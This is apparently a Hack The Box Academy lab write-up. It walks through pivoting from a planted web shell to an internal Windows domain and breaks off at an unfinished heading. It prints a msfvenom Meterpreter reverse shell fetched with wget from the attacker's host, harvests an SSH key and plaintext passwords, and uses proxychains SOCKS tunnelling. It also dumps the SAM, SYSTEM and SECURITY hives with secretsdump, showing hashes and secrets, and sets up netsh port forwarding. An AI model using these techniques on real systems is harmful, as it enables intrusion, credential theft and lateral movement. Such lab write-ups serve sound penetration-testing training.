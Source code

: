 # Pivoting Tunneling and Port Forwarding Skills Assessment  

[Skills Assessment](https://academy.hackthebox.com/module/158/section/1441)  

## Objective  

* Start from external Kali VM and access the first system via the web shell left in place.
* Use the web shell access to enumerate and pivot to an internal host.
* Continue enumeration and pivoting until you reach the `Inlanefreight` Domain Controller and capture the associated flag.
* Use any data, credentials, scripts, or other information within the environment to enable your pivoting attempts.
* Grab all flags that can be found.  

## Network Map  

>This diagram of the targets on the network was drawn after the skills assessment.  

![pivot skills assessment map](/images/pivot-skills-assessment-map.png)  

## Enumeration  

>Connecting Info `10.129.201.127` for the webshell on ` support.inlanefreight.local`.  

![Pivot skills assessment webshell](/images/pivot-skills-assessment-webshell.png)  

### Initial Reverse Shell  

>Setup a [Meterpreter reverse shell - Meterpreter Tunneling & Port Forwarding](https://academy.hackthebox.com/module/158/section/1428) to target `10.129.201.127`.
>MSFconsole multi handler listen on port 8080

```
sudo msfconsole

use exploit/multi/handler
set LHOST 10.10.15.124
set LPORT 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```  

![pivot skills assessment msfconsole](/images/pivot-skills-assessment-msfconsole.png)  

>Create msfvenom payload:  

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.124 -f elf -o backupjob LPORT=8080
```  

>Host payload on kali attack host.

```
python3 -m http.server 443
```  

>In webshell on target execute `wget` to upload `elf` reverse shell connection. The set execute permissions and run to make connection.  

```
cd /tmp 
wget 10.10.15.124:443/backupjob -O backupjob
chmod +x backupjob
./backupjob
```  

![pivot-skills-assessment-msfvenom](/images/pivot-skills-assessment-msfvenom.png)  

### Initial Enumeration  

>Once on the target webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network.  
>In the home folder `/home/webadmin` discover the file `for-admin-eyes-only` and an `id_rsa` openssh private key file.  

```
cd /home/webadmin
cat for-admin-eyes-only
cat id_rsa
```  

>The contents of the file `for-admin-eyes-only`:  

```
# note to self,
in order to reach server01 or other servers in the subnet from here you have to us the user account:mlefay
with a password of : 
Plain Human work!
```  

>Within the webadmin user's directory, found the credential ssh key.  

## Foothold - Ubuntu  

>SSH with the `id_rsa` key to the ubuntu server as webadmin user and read the webadmin `bash_history`.

```
ssh webadmin@support.inlanefreight.local -i webadmin-rsa
cat .bash_history
```  

### Dynamic Port Forward + ProxyChain  

>[Dynamic Port Forwarding with SSH, SOCKS Tunneling and proxychain commands](https://academy.hackthebox.com/module/158/section/1426)  

>Proxychain configuration file, `tail /etc/proxychains4.conf`:    

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4        127.0.0.1 9050
socks5  127.0.0.1 9050
```  

>Enabling Dynamic Port Forwarding with SSH  

```
ssh -D 9050 webadmin@support.inlanefreight.local -i webadmin-rsa
```  

![pivot-skills-assessment-dynamic-port-forward](/images/pivot-skills-assessment-dynamic-port-forward.png)  

## Enumeration via Proxychains  

>With the dynamic port forwarding using `ssh` through port `9050` and proxychains setup, we run enumeration commands from kali attack host.  

```
proxychains nmap 172.16.5.35
```

>Proxychain NMAP Scan results:  

```
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```  

>Remote desktop via Proxychains with the username `mlefay` and the password of `Plain Human work!` obtain in the text file `for-admin-eyes-only` on ubuntu server.  
>XfreeRDP session with dynamic map drive to the local kali attack host path, `/home/kali/Downloads/htb/academy/webadmin`.  

```
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /dynamic-resolution /cert:ignore /drive:kali-drive,/home/kali/Downloads/htb/academy/webadmin
```  

>Enumeration of the windows server `pivot-srv01.inlanefreight.local` reveal is part of Active Directory Domain and has 2 network interfaces:
* 172.16.5.35
* 172.16.6.35  

![pivot-skills-assessment-pivot-srv01](/images/pivot-skills-assessment-pivot-srv01.png)  

### Attacking SAM  

>[Attacking SAM](https://academy.hackthebox.com/module/147/section/1315)
>With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.  

>Save security registry hives to local host and copy to Kali via RDP drive mapping.  

```
cd c:\temp
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```  

![pivot-skills-assessment-SAM-Attack](/images/pivot-skills-assessment-SAM-Attack.png)  

>Dumping Hashes with Impacket's secretsdump.py  

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```  

>Obtained hashes from dump:  

```
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#7b2aeb20037c28bc44032f7081f304df: (2022-05-17 16:09:37)
INLANEFREIGHT.LOCAL/vfrank:$DCC2$10240#vfrank#cfaf1869163aa26757496e1cd9970316: (2022-05-18 18:38:43)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:7a00340050004e0024<snip>037002300
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:21ce18b1a025d4b0b01c0e716e99d476
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x2c1bed0e346af06d64c32dcfd108d8fb3af1e353
dpapi_userkey:0x8a888dcf7becc69d4065caf26b6a534ab160144c
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65<snip>a96f58ca7600dd39017dc5f78f4bab1edc63
[*] _SC_DHCPServer 
(Unknown User):Imply wet Unmasked!
[*] _SC_SCardSvr 
(Unknown User):Imply wet Unmasked!
[*] Cleaning up... 
```  

>From the above secrets hash dump we obtained the clear text password of `Imply wet Unmasked!` for the domain Administrator: `INLANEFREIGHT.LOCAL/vfrank`.  

## Window Port Forward Netsh  

>Using `netsh` to forward traffic from windows server to windows 10 workstation for `vfrank` user. 
>[Port Forwarding with Windows Netsh](https://academy.hackthebox.com/module/158/section/1435)  
>In command prompt on the windows server `172.16.5.35`, create a `netsh` port forwarding proxy.  

```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.5.35 connectport=3389 connectaddress=172.16.6.25
```  

>On `172.16.5.35` the listen port `8080` will direct traffic to port `3389` for destination target IP address `172.16.6.25`.  

```
proxychains xfreerdp /v:172.16.5.35:8080 /u:vfrank /p:'Imply wet Unmasked!' /d:INLANEFREIGHT.LOCAL /dynamic-resolution /cert:ignore /drive:kali-drive,/home/kali/Downloads/htb/academy/webadmin
```  

![pivot-skills-assessment-netsh](/images/pivot-skills-assessment-netsh.png)  

>Proxychains RDP session Connect as user `vfrank` from kali host.  

## Enumerate Win10 vFrank  






